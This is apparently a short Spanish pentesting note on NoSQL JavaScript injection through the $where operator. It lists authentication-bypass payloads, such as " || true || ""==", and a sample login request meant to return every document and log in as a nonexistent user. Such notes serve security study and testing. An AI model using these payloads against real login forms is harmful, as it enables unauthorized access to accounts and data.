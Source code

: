 ## INFO
Un tipo único de NoSQLI es JS injection.

- Consiste en la capacidad de ejecutar código JS en el contexto de la DB.
- Se da cuando la lógica utiliza el operador $WHERE


## OR equal

Podríamos injectar estos códigos en las variables para que la lógica de la DB traiga todos los documentos y quedemos autenticados en el primer hallazgo:

    " || ""=="

#### ejemplo:

    username=" || ""=="

## Always TRUE:

Podríamos indicarle a la lógica que siempre devuelva true, logueandonos incluso con un user que no se encuentra en la DB:


    " || true || ""=="

#### EJEMPLO:
Siempre encodear el envío.

    username=" || true || ""=="&password=x

